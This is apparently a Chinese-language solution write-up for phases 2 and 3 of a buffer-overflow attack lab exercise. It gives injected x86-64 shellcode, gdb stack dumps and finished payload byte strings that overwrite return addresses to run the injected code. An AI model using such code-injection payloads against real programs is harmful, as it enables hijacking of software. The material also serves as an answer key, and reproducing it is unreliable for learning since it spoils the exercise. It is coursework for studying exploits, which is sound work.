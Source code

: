 注入代码：
```txt
inject_code2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf 34 62 8d 4f       	mov    $0x4f8d6234,%edi
   5:	c3                   	retq   
```

调试得到栈顶地址(注入代码地址)：0x556846e8
```c
(gdb) x/80xb $rsp
0x556846e8:     0xbf    0x34    0x62    0x8d    0x4f    0xc3    0x00    0x00
0x556846f0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x556846f8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55684700:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55684708:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55684710:     0xe8    0x46    0x68    0x55    0x00    0x00    0x00    0x00
0x55684718:     0x77    0x18    0x40    0x00    0x00    0x00    0x00    0x00
0x55684720:     0x00    0x1f    0x40    0x00    0x00    0x00    0x00    0x00
0x55684728:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55684730:     0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4
```
**答案：**
```txt
bf 34 62 8d 4f c3 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e8 46 68 55 00 00 00 00
77 18 40 00 00 00 00 00
```

### phase3

cookie(去掉前缀0x)当字符串转ASCLL码``34 66 38 64 36 32 33 34``


注入代码：
```txt
inject_code2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	5f                   	pop    %rdi
   1:	c3                   	retq   
```

调试得到栈顶地址(注入代码地址)：0x556846e8
```c
(gdb) x/80xb $rsp
0x556846e8:     0x5f    0xc3    0x00    0x00    0x00    0x00    0x00    0x00
0x556846f0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x556846f8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55684700:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55684708:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55684710:     0xe8    0x46    0x68    0x55    0x00    0x00    0x00    0x00
0x55684718:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55684720:     0x8e    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x55684728:     0x34    0x66    0x38    0x64    0x36    0x32    0x33    0x34
0x55684730:     0x00    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4
```